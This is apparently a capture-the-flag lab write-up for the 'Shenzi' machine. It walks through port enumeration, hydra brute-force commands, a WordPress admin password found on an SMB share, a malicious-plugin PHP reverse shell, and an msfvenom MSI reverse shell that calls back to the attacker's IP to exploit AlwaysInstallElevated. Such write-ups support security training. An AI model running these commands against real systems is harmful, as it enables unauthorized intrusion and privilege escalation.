---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---

# Shenzi

## Enumeration

### Nmap

Start with an Nmap TCP SYN scan of all ports:


```
# Nmap 7.94SVN scan initiated Tue Jun  4 15:27:56 2024 as: nmap -Pn -A -p- -o ./enumeration/external_tcp_all.nmap 192.168.185.55
Nmap scan report for shenzi.offsec (192.168.185.55)
Host is up (0.057s latency).
Not shown: 65520 closed tcp ports (reset)
PORT      STATE SERVICE       VERSION
21/tcp    open  ftp           FileZilla ftpd 0.9.41 beta
| ftp-syst: 
|_  SYST: UNIX emulated by FileZilla
80/tcp    open  http          Apache httpd 2.4.43 ((Win64) OpenSSL/1.1.1g PHP/7.4.6)
|_http-server-header: Apache/2.4.43 (Win64) OpenSSL/1.1.1g PHP/7.4.6
| http-title: Welcome to XAMPP
|_Requested resource was http://shenzi.offsec/dashboard/
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
443/tcp   open  ssl/http      Apache httpd 2.4.43 ((Win64) OpenSSL/1.1.1g PHP/7.4.6)
|_http-server-header: Apache/2.4.43 (Win64) OpenSSL/1.1.1g PHP/7.4.6
| ssl-cert: Subject: commonName=localhost
| Not valid before: 2009-11-10T23:48:47
|_Not valid after:  2019-11-08T23:48:47
|_ssl-date: TLS randomness does not represent time
| http-title: Welcome to XAMPP
|_Requested resource was https://shenzi.offsec/dashboard/
| tls-alpn: 
|_  http/1.1
445/tcp   open  microsoft-ds?
3306/tcp  open  mysql?
| fingerprint-strings: 
|   NULL: 
|_    Host '192.168.45.234' is not allowed to connect to this MariaDB server
5040/tcp  open  unknown
7680/tcp  open  pando-pub?
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port3306-TCP:V=7.94SVN%I=7%D=6/4%Time=665F8711%P=x86_64-pc-linux-gnu%r(
...
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.94SVN%E=4%D=6/4%OT=21%CT=1%CU=42167%PV=Y%DS=4%DC=T%G=Y%TM=665F8
...
OS:=N)

Network Distance: 4 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2024-06-04T21:31:47
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required

TRACEROUTE (using port 1720/tcp)
HOP RTT      ADDRESS
1   56.16 ms 192.168.45.1
2   56.10 ms 192.168.45.254
3   56.97 ms 192.168.251.1
4   57.07 ms shenzi.offsec (192.168.185.55)
```


### Port 21

Anonymous login failed:

<figure><figcaption></figcaption></figure>

I then ran `hydra` with a default password list to see if there was anything useful:


```bash
hydra -I -f -o ftp.hydra -C /usr/share/wordlists/seclists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt ftp://192.168.185.55
```


Unfortunately no credentials were found.

### Port 80

Default XAMPP page:

<figure><figcaption><p>Landing page</p></figcaption></figure>

`phpinfo` page is exposed:

<figure><figcaption><p>phpinfo page</p></figcaption></figure>

`phpMyAdmin` is only available to users on the internal network:

<figure><figcaption><p>phpMyAdmin access error</p></figcaption></figure>

Ran `feroxbuster` against port to be sure but nothing interesting turned up.

### Port 135

Used Impacket's [`rpcdump`](https://github.com/fortra/impacket/blob/master/examples/rpcdump.py) as suggested [here](https://book.hacktricks.xyz/network-services-pentesting/135-pentesting-msrpc#identifying-exposed-rpc-services):


```bash
impacket-rpcdump 192.168.185.55 -p 135 > enumeration/shenzi.rpcdump
```


None of the ["interesting" RPC interfaces](https://book.hacktricks.xyz/network-services-pentesting/135-pentesting-msrpc#notable-rpc-interfaces) were found in the output.

### Port 139/445

The initial Nmap scan was run with scripts and the relevant SMB information is included here:

```
...
Host script results:
| smb2-time: 
|   date: 2024-06-04T21:31:47
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
...
```

I attempted the basic SMB enumeration steps as shown [here](https://arnavtripathy98.medium.com/smb-enumeration-for-penetration-testing-e782a328bf1b) but was unable to establish an SMB session:

<figure><figcaption><p>Basic SMB enumeration failure</p></figcaption></figure>

I also tried `enum4linux` as suggested [here](https://book.hacktricks.xyz/network-services-pentesting/pentesting-smb#ipcusd-share) but that was unsuccessful as well:

<figure><figcaption><p>enum4linux no help</p></figcaption></figure>

Finally, I tried enumerating users with Impacket's [`lookupsid`](https://github.com/fortra/impacket/blob/master/examples/lookupsid.py) as suggested [here](https://book.hacktricks.xyz/network-services-pentesting/pentesting-smb#enumerate-local-users) but it failed due to an `ACCESS_DENIED` error.

### Port 443

Same as [port 80](shenzi.md#port-80) just HTTPS.

Also ran `feroxbuster` against this port separately in case there was anything different here.

### Port 3306

This port is probably MySQL but it returned an error saying my IP cannot connect to it:

<figure><figcaption><p>Port 3306 access denied</p></figcaption></figure>

I would be inclined to give brute-forcing a shot but if I cannot connect to the host that is probably out.

### Port 5040

As far as I can tell this is part of [Windows Deployment Service](https://learn.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-r2-and-2012/mt670791\(v=ws.11\)). It does not seem readily exploitable

### Port 7680

This port seems to be part of [Delivery Optimization](https://learn.microsoft.com/en-us/windows/deployment/do/waas-delivery-optimization-faq#which-ports-does-delivery-optimization-use)

. It also does not seem readily exploitable.

## Foothold

I was pretty stuck here.&#x20;

### WordPress Enumeration

I ran a WPScan&#x20;

It determined the version as 5.4.1 and printed a bunch of potential exploits for the version:

<figure><figcaption><p>WordPress version</p></figcaption></figure>

Of these the most interesting was:

<figure><figcaption><p>Potentially interesting exploit</p></figcaption></figure>

The linked resource indicates that it allows an admin user the ability to upload any PHP file instead of a valid plugin.

The plugins section of the output was less helpful as the only installed and vulnerable plugin just offered stored XSS which is not super helpful absent a way to phish someone.

#### Admin Login

I needed an admin login and none of the defaults worked. I tried using hydra but I had no luck:


```bash
hydra -I -f -l 'admin' -P /usr/share/wordlists/rockyou.txt 192.168.185.55 -V http-form-post '/shenzi/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:F=login_error'
```


At this point I researched some of the other vulnerabilities but none seemed super helpful.

### SMB Enumeration

I decide to apply the same logic to SMB as I did to HTTP and check for a `\shenzi` drive. I find one with anonymous access and some helpful looking files:

<figure><figcaption><p>SMB Shenzi</p></figcaption></figure>

The passwords file ends up being especially helpful as it contains the WordPress `admin` login:


```
### XAMPP Default Passwords ###

1) MySQL (phpMyAdmin):

   User: root
   Password:
   (means no password!)

2) FileZilla FTP:

   [ You have to create a new user on the FileZilla Interface ] 

3) Mercury (not in the USB & lite version): 

   Postmaster: Postmaster (postmaster@localhost)
   Administrator: Admin (admin@localhost)

   User: newuser  
   Password: wampp 

4) WEBDAV: 

   User: xampp-dav-unsecure
   Password: ppmax2011
   Attention: WEBDAV is not active since XAMPP Version 1.7.4.
   For activation please comment out the httpd-dav.conf and
   following modules in the httpd.conf
   
   LoadModule dav_module modules/mod_dav.so
   LoadModule dav_fs_module modules/mod_dav_fs.so  
   
   Please do not forget to refresh the WEBDAV authentification (users and passwords).     

5) WordPress:

   User: admin
   Password: FeltHeadwallWight357
```


### Unstable Shell

The vulnerability allows me to upload any PHP file but it must appear as if it is a WordPress plugin to successfully upload. I use this repository to create a a malicious plugin:

<figure><figcaption><p>Creation of malicious WordPress plugin</p></figcaption></figure>

I then uploaded it via the WordPress admin portal and activated it:


<figure><figcaption><p>Running a command with the web shell</p></figcaption></figure>

### Stabilized Shell

At this point I started examining the source code of the WordPress plugin generator I used to see how one is generated. It turns out it is just a zipping of a couple PHP files. One of them was created to be the main plugin piece (and thus look legitimate):

<figure><figcaption><p>Script to generate WordPress plugin</p></figcaption></figure>

It turns out any PHP files can just be added to the `.zip` and accessed via the same URL scheme. So I added the standard dual OS [PHP reverse shell](https://github.com/pentestmonkey/php-reverse-shell) (from `pentestmonkey`) as a file called `rs.php`. I then deleted and re-uploaded the plugin. This time I was able to access the shell via the URL:


```
http://shenzi.offsec/shenzi/wp-content/plugins/malicious/rs.php
```


It connected back to my shell in a stable manner. Ignore the first error in the screenshot. I got too eager when the connection happened and started trying to run a command before it was fully ready:

<figure><figcaption><p>Stable shell connection</p></figcaption></figure>

User access achieved as user `shenzi`.

One interesting note is that the `rs.php` file appears to be writing the command-line output into the webpage as well because if I look at the browser session I used to launch the shell I can see the output.

<figure><figcaption><p>Potential reason for shell instability</p></figcaption></figure>

Also worth noting is the first line which indicates `pcntl_fork()` does not exist. [`pcntl_fork()`](https://www.php.net/manual/en/function.pcntl-fork.php) is a PHP function that allows the launching of a child process. It is often used in reverse shells for PHP. I suspect that is what caused the initial shell instability. That shell probably depends on the ability to fork a command into a child process. Which failed causing the shell to close.

## Privilege Escalation

### Enumeration

First checked user groups and privileges:

<figure><figcaption><p>Shenzi groups and privileges</p></figcaption></figure>

Then moved to Seatbelt and winPEAS script enumeration. `curl` was installed so it made transporting the binaries super easy. With the intent of transporting the output back to my machine for easier viewing and searching I ran winPEAS (as `peas.exe`) with the following command:

```sh
.\peas.exe -a quiet notcolor log=shenzi.peas
```

I then began examining the output (I also ran it again on the command line with color for screenshots). Right away I found something promising:

<figure><figcaption><p>AlwaysInstallElevated</p></figcaption></figure>

### AlwaysInstallElevated

winPEAS found the [`AlwaysInstallElevated` policy](https://learn.microsoft.com/en-us/windows/win32/msi/alwaysinstallelevated) enabled for both the local machine ([`HKLM`](https://www.computerhope.com/jargon/h/hklm.htm)) and current user ([`HKCU`](https://learn.microsoft.com/en-us/troubleshoot/windows-server/performance/windows-registry-advanced-users)). This policy causes any Windows Installer package (`.msi`) to be installed with elevated (`SYSTEM`) privileges.

The linked [HackTricks page](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#alwaysinstallelevated) explains how to leverage this. The examples it gives create a new admin user (`rottenadmin`). I was able to follow the steps and successfully verify the existence of the new `rottenadmin` user but the `runas` command (and derivatives) kept failing to give me an interactive elevated shell.

Instead I changed the payload in the malicious .msi file. I generated a second payload with the command:


```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.45.234 LPORT=443 --platform windows -a x64 -f msi -o alwd.msi
```


This payload contains a reverse shell that will reach me at port 443. I transfer the malicious `.msi` and run it on the victim with [`msiexec`](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/msiexec) using the command:


```sh
msiexec /quiet /qn /i C:\xampp\htdocs\shenzi\wp-content\plugins\malicious\.wkg\alwd.msi
```


* `/qn` disables UI during installation
* `/i` specifies normal installation
* `/quiet` is fairly self-explanatory

<figure><figcaption><p>Running the "installer"</p></figcaption></figure>

<figure><figcaption><p>Catching the admin shell</p></figcaption></figure>

At this point the machine is fully compromised.

## Learned

* **Include custom entries in wordlists for enumeration:** I was stuck for awhile because none of the wordlists I used for things like `feroxbuster` included the machine name `shenzi`. This prevented them from finding the WordPress site that was located at the `http:<ip>/shenzi` directory. I should have added `shenzi` (and any other known words) to the Seclist wordlist I used with `feroxbuster`.
  * The same holds true for SMB enumeration
* **AlwaysInstallElevated:** I had never heard of this policy and thus did not immediately recognize its potential as a privilege escalation vector

### Difficulty Rating

* **Foothold - 4/10:** Finding WordPress was hard but exploiting it was easy
* **Privilege Escalation - 5/10:** Exploit vector was trivial but I did not know about it so it took me a long time to find
